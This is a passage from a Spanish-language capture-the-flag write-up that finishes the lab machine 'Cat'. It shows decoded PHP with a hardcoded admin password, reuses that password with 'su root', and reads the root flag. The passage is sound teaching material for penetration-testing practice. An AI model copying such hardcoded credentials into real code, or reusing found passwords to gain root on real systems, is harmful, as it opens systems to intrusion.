Repetimos todo el proceso y debería llegarnos el código que decodificado será el siguiente:

```php
<?php
$valid_username = 'admin';
$valid_password = 'IKw75eR0MR7CMIxhH0';

if (!isset($_SERVER['PHP_AUTH_USER']) || !isset($_SERVER['PHP_AUTH_PW']) || 
    $_SERVER['PHP_AUTH_USER'] != $valid_username || $_SERVER['PHP_AUTH_PW'] != $valid_password) {
    
    header('WWW-Authenticate: Basic realm="Employee Management"');
    header('HTTP/1.0 401 Unauthorized');
    exit;
}

header('Location: dashboard.php');
exit;
?>
```

Como podemos ver, contiene una credencial para el usuario `admin`. Vamos a intentar cambiar de usuario a `root` con esta contraseña.

```
su root
Password: IKw75eR0MR7CMIxhH0
```

La contraseña es correcta, por lo que podemos acceder a la flag de `root` y completar la máquina `Cat`.

```
cd
cat root.txt
```

Tras acabar la máquina no olvides eliminar la línea del `/etc/hosts` correspondiente a la máquina para evitar que se acumulen líneas con cada máquina que hagas.

Si te ha parecido útil, considera dejar una estrella al proyecto. Gracias y mucha suerte en tus próximas máquinas ❤️.